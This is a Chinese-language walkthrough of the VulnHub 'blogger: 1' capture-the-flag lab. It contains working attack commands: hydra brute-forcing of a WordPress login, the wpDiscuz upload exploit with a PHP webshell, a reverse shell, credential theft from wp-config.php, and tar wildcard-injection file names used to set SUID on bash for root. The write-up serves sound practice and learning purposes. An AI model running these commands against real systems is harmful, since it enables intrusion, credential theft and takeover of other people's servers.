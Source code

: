 # blogger: 1

2024-5-25 https://www.vulnhub.com/entry/blogger-1,675/

difficulty: Beginner, Easy

## IP

192.168.5.30

## Scan

先关闭串口设备，否则不能启动。

先将 192.168.5.30 blogger.thm 添加到 /etc/hosts 文件。

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 951d828f5ede9a00a80739bdacadd344 (RSA)
|   256 d7b452a2c8fab70ed1a8d070cd6b3690 (ECDSA)
|_  256 dff24f773344d593d77917455aa1368b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Blogger | Home
```

80 端口是 web 服务，首页上没发现什么信息，源代码中也没什么提示，使用 gobuster 进行扫描：

```
gobuster -t 64 dir -u http://blogger.thm/ -k -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

http://blogger.thm/images               (Status: 301) [Size: 311] [--> http://blogger.thm/images/]
http://blogger.thm/assets               (Status: 301) [Size: 311] [--> http://blogger.thm/assets/]
http://blogger.thm/css                  (Status: 301) [Size: 308] [--> http://blogger.thm/css/]
http://blogger.thm/index.html           (Status: 200) [Size: 46199]
http://blogger.thm/js                   (Status: 301) [Size: 307] [--> http://blogger.thm/js/]
```

首页上的 LOGIN 按钮也是假的，点击后没有像后台发送数据。

http://blogger.thm/assets/fonts/blog/ 中，发现了一个 wordpress 的网站。

突破口应该是这个 wordpress，使用 wpscan 进行扫描，枚举用户：

```
wpscan --url http://blogger.thm/assets/fonts/blog/ -e u
```

得到用户 j@m3s 和 jm3s ， 进行密码爆破：

```
hydra -t 20 -L user -P ~/tools/dict/rockyou.txt blogger.thm -f http-post-form "/assets/fonts/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblogger.thm%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=is incorrect"
```

没有成功。

在观察网站中的内容，可以进行留言，并且网站的主题是 WordPress Theme: Poseidon by ThemeZee.看看这个主题有没有漏洞，没有找到。

看到留言板中有图片上传功能，这里能不能上传我们的 webshell，进行尝试。枚举后，发现 wp 的插件 wpdiscuz，这个插件存在漏洞。

```
wpscan --url http://blogger.thm/assets/fonts/blog/ --plugins-detection mixed
```

对应的 exp 为 https://www.exploit-db.com/exploits/49967，对应的执行利用代码为：

```
python 49967.py -u http://blogger.thm/assets/fonts/blog/ -p '?p=9'

exp内容为 <?php system($_GET['cmd']); ?>
```

在上传测试时，在 webshell 文件头中添加 GIF89a 就能把 php 文件上传，在 kali 上监听 8888 端口，访问下面网址，就得到了反弹的链接：

```
curl http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/05/8888-1716609170.2277.php
```

目标系统中有 python3，先升级下 tty。

寻找 wp-config.php 文件，里面有数据库配置信息：

```
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog$ cat wp-config.php

define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'sup3r_s3cr3t');
define('DB_HOST', 'localhost');
```

登陆数据库，发现了用户名和密码：

```
j@m3s | $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/
```

经过尝试，没有找到对应的明文密码。

在 /home 目录中发现了 3 个用户，james ubuntu vagrant，看看这个密码能不能切换到这几个用户上，尝试后，都不成功。

suid 没有特权程序，crontab 中有一个自定义的计划任务：

```
PATH=/home/james:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root /usr/local/bin/backup.sh
```

```
www-data@ubuntu-xenial:/tmp$ cat /usr/local/bin/backup.sh
#!/bin/sh
cd /home/james/
tar czf /tmp/backup.tar.gz *
```

解压 /tmp/backup.tar.gz 发现了 user flag:

```
cd /tmp
tar -xvf backup.tar.gz

www-data@ubuntu-xenial:/tmp$ cat user.txt
ZmxhZ3tZMHVfRCFEXzE3IDopfQ==    --> flag{Y0u_D!D_17 :)}
```

linpes 发现文件 /opt/.creds，内容好像是多重变换编码过的：

```
';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"ll
```

经过 google 搜索，找到 james 的密码：

```
https://gchq.github.io/CyberChef/#recipe=ROT47(47)From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Jzt1MjI%2BJ3YkKT0nMmEjQiY%2BYGMnPStDKD81KHwpcSoqYkF2Mj0rRTVzJyt8dSZJJ3ZESSh1QXQmPSsofGB5eCcpQXYjPid2JT99OiM9KyknO3lAJSc1KDJ2QSEnPHkkJnUiSCEibGw
```

```
james:S3cr37_P@$$W0rd
```

这里设计的不好，感觉没必要。

切换到 james 用户，tar 用户可以以 root 身份打包执行，可以进行利用得到 root 权限：

```
cd /home/james
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

等待一分钟，/bin/bash 就有了 suid 权限，便可提升到 root：

```
/bin/bash -p

bash-4.3# cat root.txt
SGV5IFRoZXJlLApNeXNlbGYgR2F1cmF2IFJhaiwgSGFja2VyLCBQcm9ncmFtbWVyICYgRnJlZUxhbmNlci4KVGhpcyBpcyBteSBmaXJzdCBhdHRlbXB0IHRvIGNyZWF0ZSBhIHJvb20uIExldCBtZSBrbm93IGlmIHlvdSBsaWtlZCBpdC4KQW55IGlzc3VlIG9yIHN1Z2dlc3Rpb25zIGZvciBtZS4gUGluZyBtZSBhdCB0d2l0dGVyCgpUd2l0dGVyOiBAdGhlaGFja2Vyc2JyYWluCkdpdGh1YjogQHRoZWhhY2tlcnNicmFpbgpJbnN0YWdyYW06IEB0aGVoYWNrZXJzYnJhaW4KQmxvZzogaHR0cHM6Ly90aGVoYWNrZXJzYnJhaW4ucHl0aG9uYW55d2hlcmUuY29tCgoKSGVyZSdzIFlvdXIgRmxhZy4KZmxhZ3tXMzExX0QwbjNfWTB1X1AzbjN0cjR0M2RfTTMgOil9Cg==
```

```
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com

Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
```

另外一种提权到 root,发现 vagrant 用户的密码为弱密码，也为 vagrant，切换到该用户后，sudo -l 发现可以执行全部程序：

```
(ALL) NOPASSWD: ALL
```

```
bash-4.3$ sudo su
root@ubuntu-xenial:~# id
uid=0(root) gid=0(root) groups=0(root)
```
